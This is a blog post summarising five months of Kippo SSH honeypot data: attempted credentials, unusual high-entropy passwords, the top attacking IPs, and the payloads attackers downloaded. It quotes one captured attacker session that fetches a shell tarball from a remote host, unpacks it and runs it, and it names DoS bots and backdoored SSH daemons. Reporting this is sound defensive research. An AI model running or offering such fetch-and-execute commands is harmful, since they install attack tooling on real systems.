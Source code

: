 ```yaml
---
tags:
- honeypot
- hacking
- ssh
- kippo
date: 2014-04-27T00:00:00Z
title: 'Running a Kippo Honeypot: Part two'
url: /2014/04/27/running-a-kippo-honeypot-part-two/
---
```


Over a year has now passed since I [started playing](http://hackerific.net/2013/04/15/running-a-kippo-honeypot/) with the [Kippo](https://code.google.com/p/kippo/) honeypot, so a quick second post about my findings is _long_ overdue!

I ran Kippo on an overpriced cheap VPS with two-IPs pretty much continuously from between April and September 2013. That's 5 months (154 days). I wrote a short post near the beginning of that time. In my original post on this subject I waffled a bit about how almost all of the attacking traffic I saw was from Chinese IPs and mentioned a few attempted passwords with high entropy. In this post I want to summarise what I saw over the full 5 month period.

## Credentials

First, credentials. The honeypot was configured with a single user account `root` and the password `123456`.

In the time the honeypot was running, I logged 71,264 login attempts – about 463 per day (not all that many, really), and of those attempts 395 were successful.

The most attempted username was `root`, and sorted by number of attempts, the top ten usernames were:

```nohighlight
    44193 root
      819 bin
      657 test
      554 oracle
      343 nagios
      240 user
      227 postgres
      189 guest
      187 admin
      157 apache
```
    
It's interesting that `oracle`, `nagios` and `postgres` all appear more frequently than `apache` or `www-data` (which is even further down the list). Could these indicate a general lack of good security practices on some database and monitoring servers? In that case, where's MySQL? 
    
Counts of password attempts were spread more evenly than usernames, and the most attempted passwords were `changeme`, `123456` and `password`. The list below shows the top ten:
    
```nohighlight
    1661 changeme
    1475 123456
    1023 password
     930 1234
     839 abc123
     627 test
     599 12345
     420 123
     327 qwerty
     227 111111
```

This really has to be about the worst possible wordlist. In all, the logs contain login attempts with 6,122 distinct usernames and 18,561 different passwords.

### Strange credentials

I wrote about some of the higher entropy passwords in my last post, highlighting a few of the more interesting strings, but this time some were even more strange. 

Some of the password strings with the highest entropy, according to [Data::Password::Entropy](https://metacpan.org/pod/Data::Password::Entropy) are:

```nohighlight
khaled-dico-ana-wla-akhou-charmouta-feh-kess-ekhtak-bi-ayri-a5ou-a7beh
sss!Qazxsw22243s2lakeprostsssz1,zPlastaicatraglake
efwef58sdf2cvsd1*!#&$#_)claudia69iLiE
Fum4tulP0@t3Uc1d3R4uD3T0t!@#$%^%^&*?
khaled-dico-ana-wla-akhou-charmouta-tfeh-kess-ekhtak-bi-ayri-a5ou-a7beh
1$EdkQIoSn$T3gzKLxlcxF7tsTCFqC8M
209*7fdlkdf%0@)(fUF786__fdk^%^Djfdsahfdsf886D&S%*fd
dragomirdumitru1q2w3e4r5tsfgdfhvd!Q@W#E$Rsdfdf
B*(&%^#$SSH?M?a+k3f123!^*backIleSSH@q!@#D
ortega.123#TradeLinuxKi!l|iN6#Th3h03$%nix@NdR3b!irD
```

Bizarre! I find it hard to believe that real-life systems are compromised using these passwords, so I suspect that as I said in my previous post they're either set by other tools, or perhaps they're some sort of strange meme which is gradually propagating through script kiddie's word lists. 

I also find the idea that they're '[vanity strings](http://rud.is/b/2012/06/28/honeypot-analytics/)' unlikely, but like the idea that there are thousands of Chinese script kiddies running SSH scanners solely to get into geek's blog posts. 

## Attacker's IPs

As before, Chinese IPs are dominant, but there's also a significant amount of traffic from South America and from cheap hosting companies elsewhere. Here's a list of the top ten individual IPs and country information:

```nohighlight
    7129 219.235.230.197  China
    2978 218.85.135.29    China
    2230 218.200.117.241  China
    2153 61.145.121.83    China
    2153 177.86.68.2      Brazil
    2150 188.40.92.147    Germany
    1883 200.54.114.51    Chile
    1847 183.180.32.234   Japan
    1556 218.104.145.16   China
    1438 61.139.54.71     China
```

I don't think there's anything surprising there.

## Downloads & Sessions

There wasn't much download activity, which is interesting and probably indicates that lots of SSH scanners just run unattended on large blocks and their owners check the results later. Or it could indicate a lack of realism in my honeypot setup.

Over the entire time the honeypot was running there were 25 downloads in total. Most of these were tarballs of scanning tools, but four of the 25 were cachefly test files and Microsoft service packs. In these cases I think the attackers were probably intending to use the system in DoS attacks, and were using the big downloads to judge available bandwidth. 

Here's an example terminal session:

    wget http://cachefly.cachefly.net/100mb.test
    cd /etc; wget http://rootnr1.net76.net/shell.tgz; tar xvf shell.tgz; rm -rf shell.tgz; cd rc.9; chmod +x *
    ./go
    
… at this point kippo starts playing games with the user and they invariably log off but I still have the files to play with. In this case, the payload contains several shell and perl scripts and a lot of pre-compiled binaries, all of which are unpacked into a directory called `rc.9`.     

The perl scripts include [Hawker Hunter v2.0](http://pastebin.com/HVpaBr9u), an IRC bot with port scanning and DoS capabilities and another DoS tool which contains the string "GlobaL Team atack victim" (sic).

Running strings on the binaries reveals some interesting, if dated things. For example, one of the files `h` contains:

    Hide - Process Faker, by Schizoprenic Xnuxer Research (c) 2002
    
And another `stream` contains:

    stream.c v1.0 - TCP Packet Storm
    
Which, according to [this mailing list post](http://packetstormsecurity.com/files/10836/stream-dos.txt.html) from 2000 might exploit an old DoS vulnerability in FreeBSD, Solaris and Linux. It's not clear to me if this is still relevant on modern systems, and if not this payload could have been around for ages. In fact, one of the most noticeable aspects of the payloads I saw was their age; everything's old!.

## Shall we play a game?

Other payloads I saw included a couple of backdoored SSH daemons, one of which includes the amazingly named `openssh-3.6.1p2-backdoor.patch`, and a few different IRC bots and bouncers, such as PyBNC.

The contents of these other downloads are interesting enough to be the subject of another post (in another year?!), so I'll leave with this recorded terminal session:

<script type="text/javascript" src="https://asciinema.org/a/8346.js" id="asciicast-8346" async></script>
